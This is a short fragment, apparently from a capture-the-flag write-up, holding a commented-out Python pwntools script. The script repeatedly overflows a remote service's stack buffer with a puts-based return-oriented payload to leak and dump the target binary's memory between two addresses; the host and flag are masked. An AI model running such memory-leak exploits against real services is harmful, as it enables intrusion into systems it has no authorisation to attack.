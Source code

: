 ```
# addr=0x8048000
# while addr<=0x804a000:
# 	p=remote('xxxxxxxxxxx',xxxx)
# 	if addr&0xff==0xa:
# 		b+='\x00'
# 		addr+=1
# 	p.sendlineafter('you.\n','a'*stack_len+p32(puts_plt)+p32(0)+p32(addr))
# 	a=p.recvuntil('\n')[:-1]
# 	p.recvuntil('Well done! Here is your flag: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx\n')
# 	b+=a
# 	b+='\x00'
# 	addr+=len(a)+1
# 	p.close()


# print b
# f.write(b)
# f.close()

```